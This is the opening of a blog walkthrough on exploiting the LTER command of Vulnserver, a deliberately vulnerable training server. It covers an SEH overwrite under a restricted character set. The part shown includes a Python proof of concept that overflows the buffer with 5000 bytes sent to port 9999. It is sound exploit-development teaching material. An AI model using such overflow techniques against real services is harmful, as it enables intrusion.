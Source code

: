 ```yaml
---
title: Vulnserver LTER - SEH Extremely restricted character set
author: fwinsnes
date: 2021-02-02 13:44:00 +0800
categories: [Binary Exploitation]
tags: [assembly, shellcoding, vulnerability]
---
```


# Introduction

### Last time i blogged, we tackled aligning registers within windows exploit development. Today we will be seeing an example on the [vulnerable server by stephen bradshaw](https://github.com/stephenbradshaw/vulnserver/), in which, a restricted set of characters may be found. Furthermore, due to lack of executable space when leading the flow, it will be required to use additional techniques to successfully exploit the server.

### The basics once again

##### As with any other vulnerable applicaiton to a buffer overflow, we need to test it first in order to exploit it, as in the [previous](https://whitecr0wz.github.io/posts/Exploiting-Stack-Overflows-On-Windows/) walkthrough in vulnserver, the parameter was vulnerable to the use of /.:/ after it being called, let's test if this works as well with LTER.

###### PoC code:

```term
import socket, sys, struct

buffer = "LTER /.:/" + "A" * 5000

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

###### Response of the SEH Chain

![](/assets/img/LTER/1.png)
